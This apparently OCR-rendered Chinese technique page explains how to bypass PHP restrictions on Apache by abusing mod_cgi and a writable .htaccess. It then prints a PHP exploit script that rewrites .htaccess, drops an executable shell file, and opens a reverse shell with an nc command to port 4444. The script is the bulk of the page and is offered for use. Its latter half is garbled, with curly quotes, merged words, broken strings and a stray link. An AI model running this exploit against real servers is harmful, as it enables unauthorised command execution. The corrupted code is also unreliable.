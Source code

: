 ```yaml
---
title: 利用 Apache+mod_cgi+.htaccess 绕过
id: zhfly3469
---
```


## 利用 Apache+mod_cgi+.htaccess 绕过

**1\. 前提条件**

*   启用mod-cgi
*   允许.htaccess文件
*   .htaccess可写

**2\. 基本原理**

在apache的WEB环境中，我们经常会使用.htaccess这个文件来确定某个目录下的URL重写规则，特别是一些开源的CMS或者框架当中经常会用到，比如著名的开源论坛discuz!，就可以通过.htaccess文件实现URL的静态化，大部分PHP框架，例如ThinkPHP和Laravel，在apache环境下会用.htaccess文件实现路由规则。但是如果.htaccess文件被攻击者修改的话，攻击者就可以利用apache的mod_cgi模块，直接绕过PHP的任何限制，来执行系统命令。

**3\. exp**

```
<?php
$cmd = "nc -c'/bin/bash' 127.0.0.1 4444"; //反弹shell
$shellfile ="#!/bin/bash\n"; //指定shell
$shellfile .="echo -ne \"Content-Type: text/html\\n\\n\"\n"; //需要指定这个header，否则会返回500
$shellfile .="$cmd";
functioncheckEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
   echo "$text: " . ($condition ?$yes : $no) . "<br>\n";
}
if(!isset($_GET['checked']))
{
   @file_put_contents('.htaccess',"\nSetEnv HTACCESS on", FILE_APPEND);
   header('Location: ' . $_SERVER['PHP_SELF']. '?checked=true'); //执行环境的检查
}
else
{
   $modcgi = in_array('mod_cgi',apache_get_modules()); // 检测mod_cgi是否开启
   $writable = is_writable('.'); //检测当前目录是否可写
   $htaccess = !empty($_SERVER['HTACCESS']);//检测是否启用了.htaccess
       checkEnabled("Mod-Cgienabled",$modcgi,"Yes","No");
       checkEnabled("Iswritable",$writable,"Yes","No");
       checkEnabled("htaccessworking",$htaccess,"Yes","No");
   if(!($modcgi && $writable&& $htaccess))
   {
       echo "Error. All of the above mustbe true for the script to work!"; //必须满足所有条件
   }
   else
   {

checkEnabled(“Backing

up.htaccess”,copy(".htaccess",".htaccess.bak"),“Suceeded!Saved in

.htaccess.bak”,“Failed!”); [//备份一下原有.htaccess](//xn--4gqwa83ev9kv3h4uw.htaccess) `checkEnabled(“Write

.htaccessfile”,file_put_contents(’.htaccess’,“Options

+ExecCGI\nAddHandlercgi-script

.dizzle”),“Succeeded!”,“Failed!”);//.dizzle，我们的特定扩展名

checkEnabled(“Write shellfile”,file_put_contents(‘shell.dizzle’,$shellfile),“Succeeded!”,“Failed!”);//写入文件

checkEnabled(“Chmod777”,chmod(“shell.dizzle”,0777),“Succeeded!”,“Failed!”);//给权限

echo “Executing the script now.Check your listener <img src>”; //调用

}

}

?>` 
```